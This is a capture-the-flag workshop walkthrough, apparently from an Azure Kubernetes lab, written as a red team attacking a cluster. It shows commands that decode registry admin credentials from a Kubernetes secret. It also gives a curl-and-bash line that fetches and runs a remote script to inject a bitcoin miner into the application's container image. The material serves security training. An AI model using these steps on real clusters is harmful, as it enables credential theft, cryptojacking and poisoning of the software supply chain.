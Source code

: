 # The calls are coming from inside the container! Scenario 3 Attack

## Red Team Update

It appears the blue team has again deleted our bitcoinero pods.  It's time to get sneakier.  Instead of trying to deploy new pods into their cluster, let's poke around to see if there's anything we can use.

Lets , let's see if there's any credentials accessible.

```
# In case you need to re-download kubectl
cd /usr/local/bin; curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod 555 kubectl

# Let's see if there's any secrets left out for us to grab
kubectl get secrets
```

Ooh.  There's something called `acr-secret`.  Let's dig in.
```
kubectl get secrets/acr-secret -o json
```

There's a .dockerconfigjson file in the secret that appears to be Base64 encoded

```
kubectl get secrets/acr-secret -o json | jq -r '.data.".dockerconfigjson"' | base64 -d - | jq
```

Now we're talking!  It looks like they put the admin credentials for their registry in a secret.  I bet we can use this to both PUSH and PULL new images to their registry.

We can use [Buildah](https://buildah.io/) to create, pull and push container images.  However, we will need escalated privledges.  

Some of the other red-team members have found this [neat trick from Twitter](https://x.com/mauilion/status/1129468485480751104), which deploy a container that gives us full host access.  Let's work with them to find a way to utilize this.

... TIME PASSES ...

Good luck!  They've come up with two scripts:

* [run-bitcoin-injector.sh](https://github.com/azure/aks-ctf/blob/main/workshop/scenario_3/run-bitcoin-injector.sh) - deploy a [Kubernetes Job](https://kubernetes.io/docs/concepts/workloads/controllers/job/) that uses the registry credentials we found, to create another pod that injects our bitcoin miner into the container
* [inject-image.sh](https://github.com/azure/aks-ctf/blob/main/workshop/scenario_3/inject-image.sh) - Uses Buildah to pulls the current app image, injects the bitcoin miner into the image, re-publishes the image under the same name

Let's go back to our admin panel and run the following:

```console
curl -O -J https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_3/run-bitcoin-injector.sh; bash run-bitcoin-injector.sh
```

Everything has been installed.  Let's kill our process and let the new image come up
```
kubectl delete pod $HOSTNAME
```

The page immediately died (which is understandable since we killed the pod).  Let's reload the page and see if we were successful.  Run the following command in the admin page

```
ps
```

Our `moneymoneymoney` process is there and running inside their container!  Good luck finding that one!